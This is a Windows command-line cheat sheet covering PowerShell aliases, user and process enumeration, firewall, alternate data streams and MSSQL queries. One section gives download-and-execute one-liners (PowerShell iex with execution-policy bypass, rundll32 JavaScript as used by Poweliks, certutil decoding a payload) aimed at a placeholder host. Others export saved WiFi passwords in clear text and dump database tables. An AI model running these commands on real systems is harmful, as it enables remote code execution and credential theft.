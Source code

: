 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.


Basic PowerShell commands
-------------------------

* ``sls`` (``Select-String``): look for a pattern.

  Example:

  .. code-block:: sh

      # Search my-needle in the input
      sls my-needle

      # Search my-needle in files ending with .txt
      sls -Path *.txt -Pattern my-needle

  Documentation:

  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-6
  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_regular_expressions?view=powershell-6

* ``gcm`` (``Get-Command``): List cmdlets (PowerShell commands) matching a pattern.

  Example:

  .. code-block:: sh

      # List commands using "WMI" in their names
      gcm -noun *WMI*

PowerShell also provides commands to browse the filesystem.
Here is a correspondence table between PowerShell commands and commands from other systems, that are also available in PowerShell as aliases:

+-------------------------+--------------------------------------------------+----------------------------------------------+
|                         |                     Aliases                      |                                              |
|      cmdlet             +---------+-------------------+--------------------+ Description                                  |
|                         |   PS    | ``cmd.exe``       |   UNIX shell       |                                              |
+=========================+=========+===================+====================+==============================================+
| ``Get-Location``        | ``gl``  | ``pwd``           | ``pwd``            | Get the current node.                        |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Location``        | ``sl``  | ``cd``, ``chdir`` | ``cd``, ``chdir``  | Change the current node.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ChildItem``       | ``gci`` | ``dir``           | ``ls``             | List the objects stored at the current node. |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``New-Item``            | ``ni``  | ``md``, ``mkdir`` | ``mkdir``          | Create a directory.                          |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Item``            | ``gi``  |                   |                    | Return the properties of the current item.   |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Item``            | ``si``  |                   |                    | Define the content of an item.               |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-Item``           | ``cpi`` | ``copy``          | ``cp``             | Copy an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-Item``           | ``mi``  | ``move``          | ``mv``             | Move an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-Item``         | ``rni`` | ``rn``            | ``ren``            | Rename an object.                            |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Remove-Item``         | ``ri``  | ``del``, ``rd``,  | ``rm``, ``rmdir``  | Remove an object.                            |
|                         |         | ``erase``         |                    |                                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Content``         | ``gc``  | ``type``          | ``cat``            | Get the content of an object.                |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Content``         | ``sc``  |                   |                    | Define the content of an object.             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ItemProperty``    | ``gp``  |                   |                    | Return a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-ItemProperty``   | ``cpp`` |                   |                    | Copy a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-ItemProperty``   | ``mp``  |                   |                    | Move a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-ItemProperty`` | ``rnp`` |                   |                    | Rename a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Compare-Object``      |         | ``compare``       | ``diff``           | Compare several objects.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Write-Output``        |         | ``write``         | ``echo``           | Print something to the standard output.      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Invoke-WebRequest``   | ``iwr`` |                   | ``curl``, ``wget`` | Perform a HTTP request.                      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Help``            |         | ``help``          | ``man``            | Get the help associated with a cmdlet.       |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+


Download and run
----------------

Download and run a script

* PowerShell (``iex`` is an alias to ``Invoke-Expression``)::

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

* JavaScript through Rundll32 (used by Win32/Poweliks malware)::

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``::

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell::

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\


Proxy settings
--------------

Get the HTTP proxy which is currently configured::

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy::

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles::

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``::

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file::

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | \
        %{(netsh wlan show profile name=$name key=clear)} | \
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | \
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # Get information about the current sessions on a server
    qwinsta
    query session

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group


Enumerate live objects
----------------------

Enumerate all processes::

    tasklist /v
    query process *
    Get-Process
    # "gps" and "ps" are aliases of Get-Process

Enumerate all services::

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo
    gsv | epcsv C:\Temp\AllServices.csv -NoTypeInfo


Local Group Policy
------------------

::

    gpedit.msc
    secpol.msc

    secedit /export /cfg system_config.cfg


Boot configuration
------------------

::

    msconfig


Installed software
------------------

::

    wmic product get name,version /format:csv > applications.csv


Firewall
--------

::

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule


TCP port forwarding with netsh
------------------------------

::

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42 connectport=80 connectaddress=10.13.37.1


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS)::

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue | Select-Object FileName

Read an ADS::

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS::

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``::

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt::

    Import-Csv -Path file.csv | Out-GridView
    ipcsv -Path file.csv | ogv

In order to produce a CSV from a PowerShell command::

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation
    ... | sort -Property Timestamp | epcsv file.csv -notypeinformation

For a table in the CLI::

    ... | Format-Table
    ... | ft

In order to show a table as a list::

    ... | Format-List
    ... | fl


MSSQL client
------------

In order to connect to a MSSQL server from a PowerShell CLI (cf. https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection?view=netframework-4.7.2):

.. code-block:: sh

    $ConnectionString = "Server=MSSQL-SRV\MY-INSTANCE;Database=mydb;User ID=sa;Password=sa;"
    $SqlConnection = New-Object System.Data.SqlClient.SqlConnection($ConnectionString)
    $SqlConnection.Open()
    $SqlConnection.State
    # Result: "Open"

To run a trivial SQL query:

.. code-block:: sh

    # The verbose way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand
    $SqlCmd.CommandText = "SELECT 42"
    $SqlCmd.Connection = $SqlConnection
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
    $SqlAdapter.SelectCommand = $SqlCmd
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

    # The more-compact way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT 42", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

In order to find out which tables the logged user has access, here are some queries:

* ``SELECT * FROM sys.databases``
* ``SELECT * FROM sys.tables``

The following commands export the first rows of every table to files, once a ``$SqlConnection`` has been created:

.. code-block:: sh

    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT * FROM sys.tables", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $AllTables = $DataSet.Tables[0] | Sort-Object -property name

    $AllTables | ForEach-Object {
        $tblName = $_.name
        $csvName = "dump_top_" + $tblName + ".csv"
        echo "Exporting data to " $csvName
        $SqlCmd = New-Object System.Data.SqlClient.SqlCommand(("SELECT TOP 10000 * FROM " + $tblName), $SqlConnection)
        $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
        $DataSet = New-Object System.Data.DataSet
        $SqlAdapter.Fill($DataSet)
        $DataSet.Tables[0] | Export-Csv $csvName -notypeinformation
    }

On a SQL Server, it is also possible to create a virtual drive (cf. https://docs.microsoft.com/en-us/sql/powershell/navigate-sql-server-powershell-paths?view=sql-server-2017):

.. code-block:: sh

    New-PSDrive -Name MYDB -Root SQLSERVER:\SQL\localhost\DEFAULT\Databases\mydb
    Set-Location MYDB:\Tables\Users
